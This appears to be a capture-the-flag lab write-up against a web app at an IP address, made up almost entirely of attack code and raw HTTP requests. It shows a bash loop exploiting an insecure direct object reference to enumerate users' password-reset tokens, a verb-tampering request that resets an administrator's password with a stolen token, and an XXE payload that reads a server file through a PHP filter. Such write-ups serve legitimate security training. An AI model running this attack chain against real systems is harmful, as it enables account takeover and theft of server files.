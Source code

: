 ## IDOR enum token to change password

```bash

#!/bin/bash

for i in {1..101}; do
    url="http://94.237.63.201:55896/api.php/token/$i"
    response=$(curl -s "$url" \
        -H "Host: 94.237.63.201:55896" \\
        -H "Cookie: PHPSESSID=h4bnfl2gog0so1veesn7fuath6; uid=$i")
    echo "$i"
    echo "$response"
done

```

{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}

{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}


# Verb Tampering to bypass checks to reset the password

```bash 

GET /reset.php?uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=123456789 HTTP/1.1
Host: 94.237.63.201:55896
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: */*
Origin: http://94.237.63.201:55896
Referer: http://94.237.63.201:55896/settings.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=v8hasdq1vfdr5k6cl52p17m6me; uid=52
Connection: keep-alive

```

## XML 

```bash
POST /addEvent.php HTTP/1.1
Host: 94.237.63.201:55896
Content-Length: 261
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://94.237.63.201:55896
Referer: http://94.237.63.201:55896/event.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=v8hasdq1vfdr5k6cl52p17m6me; uid=52
Connection: keep-alive

<!DOCTYPE name [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">]>
            <root>
            <name>&company;</name>
            <details>flag</details>
            <date>2022-06-27</date>
            </root>
```